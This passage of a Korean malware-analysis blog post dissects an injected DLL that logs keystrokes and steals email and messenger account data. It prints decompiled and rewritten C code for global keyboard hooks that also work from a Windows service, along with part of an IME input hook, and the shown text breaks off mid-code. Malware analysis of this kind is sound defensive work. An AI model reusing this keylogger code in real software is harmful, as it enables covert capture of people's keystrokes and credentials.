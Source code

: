 ```yaml
    한다. 분석에는 가장 코드 복구가 잘 된 \"explorer.exe(PID: 1672)\"에 인젝션된 바이너리로 선정하였다.\n\n<a href=\"http://forensic.n0fate.com/wp-content/uploads/2014/02/irykmmww.dll_.jpg\"><img
    class=\"aligncenter size-full wp-image-811\" alt=\"irykmmww.dll\" src=\"http://forensic.n0fate.com/wp-content/uploads/2014/02/irykmmww.dll_.jpg\"
    width=\"1024\" height=\"768\" /></a>\n\n한가지 유의할 점은 여기서 덤프한 바이너리는 모두 메모리에서 덤프한
    것이다. 즉, 일부 코드가 유실되거나 변경되어 있을 수 있으며, 내부 호출 함수의 심볼 정보도 대부분 유실되어 있다. 그렇다보니 추측으로 알아내야하는
    데이터도 존재할 수 있다.\n<h2>1. 주요 기능</h2>\n이 DLL은 현재 D1L에 의해 인젝션 되는 것으로 추정되며, 크게 다음 기능을
    가진다.\n<ol>\n\t<li>다른 프로세스가 DLL에 있는 Export 함수 호출 시 전역 키보드 후킹</li>\n\t<li>Internet
    Explorer 정보유출</li>\n\t<li>Office OutLook, FoxMail, Outlook Express 계정 정보 유출</li>\n\t<li>MSN,
    QQ, ICQ 메시지 유출</li>\n</ol>\n이 DLL은 자동 실행 기능을 보유하고 있진 않으며, 클라이언트에 존재하는 정보를 유출하는
    가장 중요한 임무를 가진다. 익스포트 함수 호출을 제외한 모든 후킹은 스레드 형태로 동작한다.\n<h2>2. 다른 프로세스가 DLL에 있는
    Export 함수 호출 시 전역 키보드 후킹</h2>\nD1L이 익스포트 함수를 호출하면,  OpenWindowStation API로 윈도우
    스테이션을 열고, OpenDesktop으로 현재 데스크탑을  오픈한 후, SetWindowsHookEx로 키보드 후킹을 수행한다.\n<pre
    class=\"lang:c++ decode:true\" title=\"SK - Export Function\">int __cdecl SK(LPCSTR
    lpString2)\n{\n  DWORD v1; // eax@1\n  HWINSTA v2; // eax@1\n  HDESK v3; // eax@3\n\n
    \ byte_9775C8 = 2;\n  GetProcessWindowStation();\n  v1 = GetCurrentThreadId();\n
    \ GetThreadDesktop(v1);\n  byte_9775C8 = 30;\n  v2 = OpenWindowStationA(\"winsta0\",
    0, 895u);\n  if ( v2 )\n  {\n    byte_9775C8 += 42;\n    SetProcessWindowStation(v2);\n
    \ }\n  v3 = OpenDesktopA(\"Default\", 1u, 0, 0x400001CFu);\n  if ( v3 )\n    SetThreadDesktop(v3);\n
    \ byte_9775C8 *= 32;\n  lstrcpyA(\"C:DOCUME~1demoLOCALS~1Tempirykmmww.log\", lpString2);\n
    \ if ( !dword_97A504 )\n    dword_97A504 = SetWindowsHookExA(2, KeyboardMessageHook,
    hmod, 0);\n  if ( !hhk )\n    hhk = SetWindowsHookExA(4, ImmKeyboardHook, hmod,
    0);\n  return SetWindowHooks();\n}</pre>\n보통 SetWindowsHookEx만으로 후킹을 거는 것에 비하면
    앞에 여러 API를 호출하는 것을 볼 수 있다. SetWindowsHookEx API는 Thread ID를 필요로하는데, 보통 악성코드는 FindWindow로
    이 ID를 획득한다. 이 API는 애플리케이션이 아닌 윈도우 서비스에서 실행된다면,  서비스는 윈도우 스테이션과 데스크탑이 정의되지 않았기
    때문에 실패를 리턴하게 된다. 이 악성코드는 이러한 상황을 고려하여 서비스에서도 동작이 가능한 전역 후킹을 설정하였다. 다음은 위 코드를 실제
    코드화한 것이다.\n<pre class=\"lang:default decode:true\" title=\"SetWindowsHookEX()
    as a Windows service\">// reference\n// http://cboard.cprogramming.com/windows-programming/144588-%5Bwin7%5D-setwindowshookex-windows-service-setthreaddesktop.html\n//\nHHOOK
    hHook = NULL;\nHHOOK ImmHook = NULL;\nHHOOK IMEHook = NULL;\nHINSTANCE hmod =
    hinstDLL;\n\nint SetWindowsHooks()\n{\n    if(IMEHook == NULL)\n        IMEHook
    = SetWindowsHookEx(WH_GETMESSAGE, KeyboardHook_IME, hmod, NULL);\n    return -1;\n}\n\nint
    SK(LPCSTR lpString2)\n{\n    HWINSTA hWS;\n    HDESK hDT;\n\n    // Connect to
    the window station\n    hWS = OpenWindowStation(\"Winsta0\", FALSE, MAXIMUM_ALLOWED);\n
    \   if(hWS)\n    {\n        SetProcessWindowStation(hWS);\n     }\n    //Connect
    to the desktop\n    hDT = OpenDesktop(\"Default\", 1, FALSE, MAXIMUM_ALLOWED);\n
    \   if(hDT)\n        SetThreadDesktop (hDT);\n    strcpy(filename, lpString2);
    // logfilename\n    if(hHook == NULL) // SK가 처음 실행된 경우..\n        hHook = SetWindowsHookEx(WH_KEYBOARD,
    KeyboardMessageHook, hmod, NULL);\n    if(ImmHook == NULL) // SK가 처음 실행된 경우..\n
    \       ImmHook = SetWindowsHookEx(WH_CALLWNDPROC, ImmKeyboardHook, hmod, NULL);\n
    \   return SetWindowHooks();\n}</pre>\n<span style=\"line-height: 1.5em;\">악성코드는
    사용자가 키입력을 할 때 발생할 때와 시스템에서 윈도우 프로시저로 메시지를 전달하기 전에 후킹 프로시저를 등록하여 키보드 입력을 가로채도록
    하였다. 그리고 마지막에 SetWindowHooks 함수를 호출하여 메시지큐에 메시지를 가져오는 시점을 후킹하였다.</span>\n<h3>-
    WH_KEYBOARD 후킹</h3>\n일반적인 키보드 후킹을 수행한다. wParam의 파라미터를 체크하여 일반적인 키 입력(1~0 or atoz
    등)이면 GetKeyboardState() -&gt; ToAscii()로 문자를 추출한 후, irykmmww.log 파일에 로그를 남긴다.
     만약에 일반적인 키 입력 아닌 경우, wParam 값에 들어있는 메시지에 해당하는 기능 키(화살표, 스페이스바, 엔터 등)로 변환하여 로그를
    남긴다. 각 wParam 메시지는 다음과 같이 변환된다.\n<ul>\n\t<li>0x20 -&gt; Space bar (\" \")</li>\n\t<li>0x8
    -&gt; Back-space (\"[&lt;=]\")</li>\n\t<li>0xD -&gt; CarriageReturn-LineFeed (\"rn\")</li>\n\t<li>0x28
    -&gt; Under Arrow (\"[V]\")</li>\n\t<li>0x26 -&gt; Upper Arrow (\"[^]\")</li>\n\t<li>0x25
    -&gt; Left Arrow (\"[&lt;-]\")</li>\n\t<li>0x27 -&gt; Right Arrow (\"[-&gt;]\")</li>\n</ul>\n이
    외의 메시지는 CallNextHookEx로 원래 프로시저에게 처리되도록 한다.\n<h3>- WH_CALLWNDPROC 후킹</h3>\nlParam의
    메시지가 IME 변경 입력인 경우, 즉 WM_IME_COMPOSITION 메시지인 경우에 대해 키보드 후킹을 진행한다.  예를 들어 하나의
    한글의 경우 한글의 자음과 모음이 입력될 때마다 메시지가 발생된다. 이 프로시저는 이 메시지를 가로채서 입력된 키를 획득한다.\n<pre class=\"lang:default
    decode:true\" title=\"ImmKeyboardHook\">ImmKeyboardHook(int code, WPARAM wParam,
    LPARAM lParam)\n{\n    if((MSG*)lParam-&gt;message == WM_IME_COMPOSITION)\n    {\n
    \       hWnd = GetFocus();\n        hImg = ImmGetContext(hWnd);\n        strLen
    = ImmGetCompositionString(hImg, GCS_RESULTSTR, NULL, NULL);\n        ImmGetCompositionString(hImg,
    GCS_RESULTSTR, String1, strLen+1);\n        if(IsDBCSLeadByte(char((MSG*)lParam-&gt;wParam)))\n
```